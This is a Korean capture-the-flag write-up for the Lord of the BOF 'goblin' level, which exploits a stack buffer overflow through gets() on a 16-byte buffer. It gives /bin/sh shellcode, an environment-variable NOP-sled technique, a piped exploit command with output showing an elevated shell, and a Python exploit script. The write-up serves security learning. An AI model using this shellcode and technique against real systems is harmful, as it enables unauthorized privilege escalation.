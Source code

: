 ```yaml
---
title: "[LOB]Level03. goblin"
tags: [LOB, writeup]
author: eli_ez3r
key: 20180003
category: write-up
date: 2018-08-28 03:00:00 +0900
modify_date: 2024-04-24
article_header:
  type: cover
  image:
    src: /assets/img/hackerschool_logo.png
---
```

[+ stdin](#){:.button.button--outline-success.button--pill}
> cobolt / hacking exposed

-----

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

------

### 0x01. Static Analysis

16byte크기의 buffer배열을 선언하고 gets함수를 이용하여 buffer에 값을 입력받아 저장한다.

cobolt 문제와 다른점은 cobolt에서는 main함수의 argv로 사용자에게 입력값을 받았다면, 이 문제는 gets를 이용하여 사용자에게 입력값을 받는다.

따라서 값을 넘겨주는 방식의 차이만 있을 뿐 앞 문제와 풀이 과정은 동일하다.

gets를 이용하여 사용자가 입력한 값을 buffer배열로 복사할때 복사되는 크기가 정해져있지 않아 **BoF(Buffer OverFlow) 취약점**이 존재한다.
{:.info}

- buffer 배열 크기 16byte
- gets를 이용하여 사용자 입력값 입력

------

### 0x02. Dynamic Analysis

buffer배열의 크기가 16Byte로 Shellcode보다 크기가 작으므로 환경변수를 이용하여 풀이한다.

```
shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

```shell
[cobolt@localhost cobolt]$ export shellcode=`python -c 'print "\x90"*50+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
[cobolt@localhost cobolt]$ export
...생략...
declare -x USER="cobolt"
declare -x USERNAME=""
declare -x shellcode="��������������������������������������������������1�Ph//shh/bin��PS�ᙰ
```

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/03.goblin/01.png" width="800px">{:.rounded.shadow}

`shellcode` 환경변수에 Shellcode를 넣는다.

<br>

```c
//env.c
main(){
    printf("0x%08x\n", getenv("shellcode") );
}
```

```shell
[cobolt@localhost cobolt]$ gcc -o env env.c
[cobolt@localhost cobolt]$ ./env
0xbfffff3b
```

`shellcode` 환경변수의 주소를 구하는 프로그램을 만들어 주소를 구해온다. (0xbfffff3b)

**[!] gdb에서 run 명령 시 user input 주는 방법 1**  
1) 입력하고나 하는 문자열을 파일로 생성  
$ python -c 'print "A"*10>tmp  
2) gdb에서 run 명령어 실행 시 파일 내용 입력   
(gdb) r<tmp   
{:.info}

**[!] gdb에서 run 명령 시 user input 주는 방법 2**   
1) 스크립트 실행 결과를 임시파일 생성 후 바로 임시파일의 내용 입력  
(gdb) r \`python -c 'print "A"*10'>tmp\`<tmp
{:.info}


-----

### 0x03. Exploit

여기서 한번 생각해야 할 점은, Cobolt문제는 프로그램의 인자값으로 값을 넘겨주기 때문에 프로그램을 실행할때 프로그램 이름 뒤에 인자로 Payload를 넘겨주면됐다.

하지만 이번 문제는 프로그램 내부에서 입력값을 받기 때문에 같은 방법으로는 Payload를 넘겨줄 수 없다.

따라서 Pipe('\|')를 사용해야 한다. (Pipe명령어는 왼쪽 **표준출력**을 오른쪽에 **표준입력**으로 넘겨주는 역할을 한다.)

표준입력으로 넘겨주어야 하기 때문에 `cat` 와 `;`명령어를 함께 사용해야 한다. (FTZ 12번 문제를 풀었다면 쉽게 이해할 수 있을 것이다.)

```shell
[cobolt@localhost cobolt]$ (python -c 'print "A"*20+"\x3b\xff\xff\xbf"';cat)|./goblin
AAAAAAAAAAAAAAAAAAAA;���
id
uid=502(cobolt) gid=502(cobolt) euid=503(goblin) egid=503(goblin) groups=502(cobolt)
my-pass
euid = 503
hackers proof
```

> Cobolt문제와 풀이방법이 동일하므로 상세설명은 생략했다.

-----

### 0x04. 정리

Cobolt 문제에서 BoF 취약점이 존재했던 strcpy함수 외에도 gets함수도 입력값 크기 검증이 없기때문에 동일하게 BoF 취약점이 존재하는 것을 확인할 수 있는 문제였다.

그리고 프로그램 내부에서 사용자 입력값을 받을 때 어떻게 입력값을 넘겨주어야 하는지도 알게되는 문제였다.

-----

```python
#ex.py
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/cobolt/goblin"

shellcode_env_addr = 0xbffffc33

payload = "\x90"*20
payload = append(p32(shellcode_env_addr))

print payload
```

```
(python ex.py;cat)|./goblin
```

-----

